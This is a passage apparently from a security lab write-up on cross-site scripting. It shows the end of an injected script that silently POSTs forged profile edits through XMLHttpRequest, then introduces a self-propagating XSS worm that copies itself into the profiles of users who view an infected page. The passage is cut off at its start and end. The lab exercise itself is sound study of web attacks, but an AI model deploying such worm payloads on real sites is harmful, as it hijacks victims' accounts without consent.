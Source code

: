 ```yaml
        var Ajax = null;
        var Ajax = new XMLHttpRequest();
        Ajax.open("POST", sendurl, true);
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
}
</script>


```

When Alice visits Samy’s profile, this script executes, modifying her profile to include “Samy is my hero.”

![alt text](/assets/img/seed/WO2/img10.png)


# 3. DOM-based XSS ( self-propagating XSS worm)

To create a self-propagating XSS worm, I designed a payload that modifies a victim’s profile and embeds a copy of itself, spreading to other users who view the infected profile. This is achieved using DOM APIs.

### DOM Approach
